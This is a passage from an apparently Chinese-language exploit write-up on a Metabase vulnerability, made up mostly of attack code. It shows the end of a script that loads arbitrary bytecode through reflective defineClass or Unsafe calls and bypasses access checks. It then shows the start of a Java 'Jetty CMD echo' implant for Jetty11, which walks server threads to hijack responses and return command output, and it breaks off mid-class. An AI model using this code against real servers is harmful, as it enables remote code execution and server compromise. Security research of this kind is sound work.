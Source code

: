 ```
    defineClassMethod = java.lang.Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", java.lang.Class.forName("[B"),java.lang.Integer.TYPE, java.lang.Integer.TYPE);
    setAccessible(defineClassMethod);
    // 绕过 setAccessible 
    clz = defineClassMethod.invoke(classLoader, bytes, 0, bytes.length);
    }else{
      var protectionDomain = new java.security.ProtectionDomain(new java.security.CodeSource(null, java.lang.reflect.Array.newInstance(java.lang.Class.forName("java.security.cert.Certificate"), 0)), null, classLoader, []);
      clz = unsafe.defineClass(null, bytes, 0, bytes.length, classLoader, protectionDomain);
    }
  }catch(error){
    error.printStackTrace();
  }finally{
    return clz;
  }
}
defineClass();
```  
```
```  
### 4.3 漏洞回显  
  
在漏洞回显时，我们就可以借助   
DefineClass  
 来执行完成对漏洞的回显利用，但是目前最新版本的 Metabase 使用 Jetty11，所以需要针对该版本做回显适配，核心代码如下：  
```
import java.io.OutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Scanner;

/**
 * Jetty CMD 回显马
 * @author R4v3zn woo0nise@gmail.com
 * @version 1.0.1
 */
public class JE2 {

    public JE2(){
        try{
            invoke();
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public void invoke()throws Exception{
        ThreadGroup group = Thread.currentThread().getThreadGroup();
        java.lang.reflect.Field f = group.getClass().getDeclaredField("threads");
        f.setAccessible(true);
        Thread[] threads = (Thread[]) f.get(group);
        thread : for (Thread thread: threads) {
            try{
                Field threadLocalsField = thread.getClass().getDeclaredField("threadLocals");
                threadLocalsField.setAccessible(true);
                Object threadLocals = threadLocalsField.get(thread);
                if (threadLocals == null){
                    continue;
                }
                Field tableField = threadLocals.getClass().getDeclaredField("table");
                tableField.setAccessible(true);
                Object tableValue = tableField.get(threadLocals);
```